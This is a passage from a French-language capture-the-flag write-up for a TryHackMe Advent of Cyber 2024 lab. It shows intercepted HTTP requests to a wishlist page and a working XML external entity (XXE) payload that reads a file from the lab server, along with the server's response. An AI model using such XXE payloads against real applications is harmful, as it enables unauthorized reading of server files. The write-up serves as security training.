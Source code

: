 {% include elements/figure_spoil.html image="images/THM/Advent2024/Capture_ecran_2024-12-05_wish.png" caption="Notre panier est enregistré en tant que 21ème souhait" %}

{% include elements/figure_spoil.html image="images/THM/Advent2024/Capture_ecran_2024-12-05_error.png" caption="Nous n'avons pas accès à nos souhaits" %}

Par chance, nous avons utilisé [Burp Suite](https://portswigger.net/burp) afin d'intercepter les requêtes {% include dictionary.html word="HTTP" %}. L'outil nous permet de constater qu'une action sur la page `/wishlist.php` utilise le format {% include dictionary.html word="XML" %}.

```http
POST /wishlist.php HTTP/1.1
Host: 10.10.75.70
Content-Length: 215
Accept-Language: en-GB,en;q=0.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36
Content-Type: application/xml
Accept: */*
Origin: http://10.10.75.70
Referer: http://10.10.75.70/product.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=s362bk13rtm6nqecg4b7ifdgin
Connection: keep-alive

<wishlist>
    <user_id>1</user_id>
    <item>
        <product_id>1</product_id>
    </item>
</wishlist>
```

Nous envoyons cette requête dans le *Repeater* de Burp, et nous modifions la partie {% include dictionary.html word="XML" %} de la manière suivante afin de vérifier si nous avons accès à notre *wishlist*:

```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY charge SYSTEM "/var/www/html/wishes/wish_21.txt"> ]>
<wishlist>
    <user_id>
        1
    </user_id>
    <item>
        <product_id>
            &charge;
        </product_id>
    </item>
</wishlist>
```

Nous obtenons bien notre panier :

```http
HTTP/1.1 200 OK
Date: Sat, 14 Dec 2024 10:26:02 GMT
Server: Apache/2.4.41 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 213
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

The product ID: Wish #21
Name: Christmas Hacker
Address: Somewhere on Internet
---------------------------------------
```